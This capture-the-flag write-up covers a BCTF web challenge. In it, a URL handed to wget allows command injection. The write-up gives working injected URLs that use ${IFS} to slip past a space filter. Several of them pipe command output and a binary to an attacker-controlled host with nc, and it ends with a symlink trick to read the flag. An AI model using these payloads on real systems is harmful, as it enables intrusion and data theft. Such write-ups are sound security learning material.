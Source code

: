 Torrent Lover
-------------

In this problem, we were given a website with a form and the instructions: "input something(torrent)'s URL u wanna know here". If you entered a link with a torrent file, the website would direct you to a page where you could view metadata about the torrent. The server performed some kind of validation on the url you gave it. Entering a url with a space, or and url that didn't end in ".torrent" would give you an error message.

### Unsafe wget

First, I submitted a url that pointed to a torrentfile on a server I controlled. Looking at the user-agent in the request made, it was clear that the server was using the `wget` command to fetch my torrent file. If the server was in fact using wget to fetch the urls we provided, we could likely get it to execute arbitary commands. As a simple POC, I gave it this url:
```
http://<myserver>/`uname`.torrent
```
This caused the server to make a request to my server for `/Linux.torrent`.

We could also get the server to run other arbitrary commands by append a semicolon, followed by the command we wanted to run.

### Shellcode without spaces

The validation on the server caused our requests to fail if the url we supplied contained a space. No worries though, we can simply use the internal file separator to get around this restriction.

Giving it the url
```
http://<myserver>/somefile;echo${IFS}test|nc${IFS}<myserver>${IFS}9999;.torrent
```

And listening on my server:
```
nc -l 9999
```

Caused the game server to send me the word "test". This means we can run arbitrary commands on the server, and see the output.

### Find the flag

First things first, I used the `find` command to file the flag on the server
```
http://<myserver>/somefile;find${IFS}/${IFS}-name${IFS}*flag*|nc${IFS}<myserver>${IFS}9999;.torrent
```

This revealed that there were `flag` and `use_me_to_read_flag` files in /var/ww/html/flag

Running the binary by submitting this url
```
http://<myserver>;/var/www/flag/use_me_to_read_flag${IFS}/var/www/flag/flag|nc${IFS}<myserver>${IFS}9999;.torrent
```
I see a message that says: `You do not have permission to access /var/www/flag/flag` Using ls -al to inspect the permissions, it appears that
the binary does have permissions to read the flag. We probably want to grab the binary and inspect it locally.

### A small bit of reverse engineering
Command to grab the binary:

```
http://<myserver>/;cat${IFS}/var/www/flag/use_me_to_read_flag|nc${IFS}<myserver>${IFS}9999;.torrent
```

And on my server:
```
nc -l 9999 > out.bin
```

Binary get!

Using `file`, I determine that it is an ELF. I run `ltrace` on it.

```
echo "test" > flag
ltrace out.bin flag
```

From the output, I can see that the binary does a `strstr` so see if the argument I provided contains the substring 'flag'.

So we can't directly read the flag, but that's no big deal. We can just make a symlink to the flag.

```
ln -s flag different_name
./out.bin different_name
```
It works! Now let's do that on the server. I submit the following two urls:

```
http://<myserver>/;/ln${IFS}-s${IFS}/var/www/flag/flag${IFS}/tmp/asdf;.torrent
```
and
```
http://<myserver>/;/var/www/flag/use_me_to_read_flag${IFS}/tmp/asdf|nc${IFS}<myserver>${IFS}9999;.torrent
```

And the server spits out the flag:
```
BCTF{Do_not_play_dota2_or_you_will_be_stupid_like_me233}
```


